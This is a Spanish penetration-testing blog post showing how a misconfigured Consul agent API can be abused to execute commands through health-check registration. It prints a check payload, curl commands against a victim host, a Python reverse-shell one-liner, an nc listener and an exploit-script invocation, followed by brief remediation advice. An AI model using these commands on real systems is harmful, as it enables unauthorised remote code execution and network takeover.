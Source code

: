 ```yaml
---
title: "Explotar Consul para obtener una reverse shell"
author: Adan Alvarez
classes: wide
excerpt: "Durante un test de penetración, uno de los objetivos más importantes son los equipos y programas de monitorización y configuración. Tomar el control de estos normalmente implica poder tener acceso a toda la red. En esta entrada veremos como una configuración incorrecta nos puede permitir explotar Consul para ejecutar código en los equipos que estén ejecutando el agente."
categories:
  - Herramientas
tags:
  - Red Team
  - Pentest
  - Reverse Shell
---
```

Durante un test de penetración, uno de los objetivos más importantes son los equipos y programas de monitorización y configuración. Tomar el control de estos normalmente implica poder tener acceso a toda la red. En esta entrada veremos como una configuración incorrecta nos puede permitir explotar Consul para ejecutar código en los equipos que estén ejecutando el agente.
{: style="text-align: justify;"}

[Consul](https://www.consul.io/) es una herramienta para el descubrimiento y configuración de servicios. Entre otras funcionalidades permite el descubrimiento de servicios, alertas sobre la salud de los clusters, almacenamiento de configuraciones dinámicas etc...
{: style="text-align: justify;"}

La funcionalidad que explotaremos en este caso es la de alertas del cluster. Los agentes de consul permiten crear [checks de salud mediante la API](https://www.consul.io/api/agent/check.html). Estos [checks](https://www.consul.io/docs/agent/checks.html) pueden ser de diferentes tipos, incluso pueden permitir la ejecución de scripts.
{: style="text-align: justify;"}

Verificando la ejecución de comandos
------------------------------------

Por defecto, los agentes de consul escuchan en el puerto 8500 y permiten peticiones HTTP. Durante un pentest, si descubrimos un puerto 8500 abierto será importante verificar si se trata de la API de consul. Para esto,  podemos realizar un simple: curl ip:8500 y la respuesta será Consul Agent.
{: style="text-align: justify;"}

[![](https://donttouchmynet.github.io/assets/images/old/curl_nmap-1-300x85.png)](https://donttouchmynet.github.io/assets/images/old/curl_nmap-1.png)

Si realmente es un Consul Agent podemos utilizar la función de checks para ejecutar código.  Podemos hacer una prueba creando un fichero con el siguiente contenido llamado payload.json:
{: style="text-align: justify;"}
```
{
"ID": "command",
"Name": "id",
"Args": ["curl", "IP_PROPIA"],
"Shell": "/bin/bash",
"Interval": "5s"
}
```
y ejecutando el siguiente curl para crear el check:
{: style="text-align: justify;"}
```
curl --request PUT --data @payload.json http://IP_VICTIMA:8500/v1/agent/check/register
```
Levantamos un servidor web con python y si funciona recibiremos una petición web del servidor en nuestra IP:
{: style="text-align: justify;"}

[![](https://donttouchmynet.github.io/assets/images/old/webserver-300x56.png)](https://donttouchmynet.github.io/assets/images/old/webserver.png)

Si queremos desregistrar el check podemos utilizar:
{: style="text-align: justify;"}
```
curl --request PUT http://IP_VICTIMA:8500/v1/agent/check/deregister/command
```

Explotar consul y obtener una reverse shell
-------------------------------------------

Si la ejecución de comandos funciona. El próximo paso puede ser explotar Consul para obtener una shell remota, para esto podemos utilizar python ejecutando:
{: style="text-align: justify;"}
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Para facilitar la explotación podéis utilizar el siguiente script: [exploit-consul](https://github.com/adanalvarez/exploit-consul) que podéis encontrar también en nuestra sección de [herramientas](https://donttouchmynet.github.io/categories/#herramientas/).
{: style="text-align: justify;"}

Para obtener una reverse shell primero utilizaremos el comando nc -lvp 4567 para esperar una conexión en el puerto 4567.
{: style="text-align: justify;"}

[![](https://donttouchmynet.github.io/assets/images/old/nc-1-300x65.png)](https://donttouchmynet.github.io/assets/images/old/nc-1.png)

Tras esto ejecutamos el script indicando la URL, nuestra IP y el puerto de escucha de nc:
{: style="text-align: justify;"}
```
python consul_exploit.py --url http://IP_VICTIMA:8500 --ip IP_PROPIA --port 4567
```
[![exploit consul](https://donttouchmynet.github.io/assets/images/old/python_exploit-300x16.png)](https://donttouchmynet.github.io/assets/images/old/python_exploit.png)

Al cabo de unos segundos recibiremos la reverse shell:
{: style="text-align: justify;"}

[![exploit consul](https://donttouchmynet.github.io/assets/images/old/nc_reverse-300x121.png)](https://donttouchmynet.github.io/assets/images/old/nc_reverse.png)

Remediación
-----------

Consul no opera en una configuración segura por defecto por lo que las diferentes configuraciones de seguridad deben ser activadas.
{: style="text-align: justify;"}

Consul se debe configurar para [usar ACLs](https://www.consul.io/docs/guides/acl.html#complete-acl-coverage-in-consul-0-8) con listas blancas para así solo permitir accesos mediante tokens válidos. Además se debe habilitar la opción de [cifrado de tráfico](https://www.consul.io/docs/agent/encryption.html) para evitar que las peticiones se envíen en texto plano.
{: style="text-align: justify;"}
